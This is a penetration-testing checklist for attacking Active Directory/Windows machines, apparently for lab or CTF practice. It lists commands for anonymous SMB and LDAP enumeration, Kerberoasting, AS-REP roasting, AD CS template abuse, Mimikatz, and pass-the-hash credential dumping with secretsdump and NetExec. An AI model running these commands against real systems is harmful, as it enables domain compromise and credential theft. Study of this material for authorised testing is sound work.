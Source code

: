# Step-by-Step AD/Windows Machine

## Initial Access

### Without Credential

* Enum4Linux&#x20;

```bash
enum4linux-ng IP
```

* SMB anonymous login

```bash
smbclient -L //10.10.178.64 -N
smbclient -N //10.10.178.64/Data
```

* LDAP anonymous informations

{% code overflow="wrap" %}
```
# query for Name and Description (sometimes we can find passowrds)
ldapsearch -x -H ldap://<TARGET_IP> -b "dc=example,dc=com" "(objectClass=user)" cn description
```
{% endcode %}

{% content-ref url="active-directory-pt/ad-enumeration/ldap.md" %}
[ldap.md](active-directory-pt/ad-enumeration/ldap.md)
{% endcontent-ref %}

* Web Page&#x20;

#### Anonymous allowing

* Enum AD with Kerbrute

{% content-ref url="active-directory-pt/ad-initial-attack-vectors/kerbrute.md" %}
[kerbrute.md](active-directory-pt/ad-initial-attack-vectors/kerbrute.md)
{% endcontent-ref %}

* Try get Kerberostable users

{% code overflow="wrap" %}
```bash
impacket-GetUserSPNs -request -dc-ip $DC_IP $DOMAIN.local/ -outputfile hashes.kerberoast
```
{% endcode %}

{% content-ref url="active-directory-pt/ad-post-compromise-attacks/kerberoasting.md" %}
[kerberoasting.md](active-directory-pt/ad-post-compromise-attacks/kerberoasting.md)
{% endcontent-ref %}

* Try to get ASREP Roastable users

```bash
impacket-GetNPUUsers.py $DOMAIN/ -dc-ip $DC_IP 
```

{% content-ref url="active-directory-pt/ad-post-compromise-attacks/as-rep-roasting.md" %}
[as-rep-roasting.md](active-directory-pt/ad-post-compromise-attacks/as-rep-roasting.md)
{% endcontent-ref %}



If all of these techniques doens't work we have to try to catch some NTLM hash credentials or some like this.

{% content-ref url="active-directory-pt/ad-initial-attack-vectors/" %}
[ad-initial-attack-vectors](active-directory-pt/ad-initial-attack-vectors/)
{% endcontent-ref %}



### With Credentials

Enumeration:

* Enum4Linux&#x20;

```bash
enum4linux-ng -u USER -p PASS IP
```

* SMB Shares
* Bloodhound ( or Find **Kerberostable**, **AS-Roastable** accounts)
  * Check the information from "Node Info" of initial user.
* AD CS vuln template

```bash
certipy find -u 'billy@foobar.com' -p <password> -dc-ip <DC_IP> -vulnerable -enabled

cat *_Certipy.txt | grep ESC
```

* Impacket-secretsdump
  * Pass-the-Hash / Pass-the-Password
* WinRM connection
  * evil-winrm
  * Create persistence shell&#x20;

{% content-ref url="executive-pt/post-exploitation/payload-development.md" %}
[payload-development.md](executive-pt/post-exploitation/payload-development.md)
{% endcontent-ref %}

* FTP connection
* SSH connection



## AD Enum

#### Kerberos User enumeration

* Verify users exist in the domain

```bash
./kerbrute_linux_amd64 userenum users.txt --domain DOMAIN.local --dc <IP>
```

{% content-ref url="active-directory-pt/ad-initial-attack-vectors/kerbrute.md" %}
[kerbrute.md](active-directory-pt/ad-initial-attack-vectors/kerbrute.md)
{% endcontent-ref %}





## PrivEsc:

* Local Enumeration ( Get all possible informations)

{% content-ref url="executive-pt/post-exploitation/windows-post-exploitation/windows-local-enumeration.md" %}
[windows-local-enumeration.md](executive-pt/post-exploitation/windows-post-exploitation/windows-local-enumeration.md)
{% endcontent-ref %}

* WinPeas
* Privs (whoami /priv)
  * Access Token Impersonation
* Check All AD user (deleted, disable, active)
* Mimikatz&#x20;
* Certipy (more if there is a CA\_SVC user)



## As Admin

### Dump

* impacket-secretsdump
* Mimikatz
* DPAPI with NetExec

```bash
# with Pass-the-Hash
nxc smb DOMAIN -u administrator -H 'REDACTED' --dpapi
```

When we have a hash we can:

* Do Pass-The-Hash
* Use `Hash-Identify` to get the type and crack it



## Crack Hash

* Hashcat & John


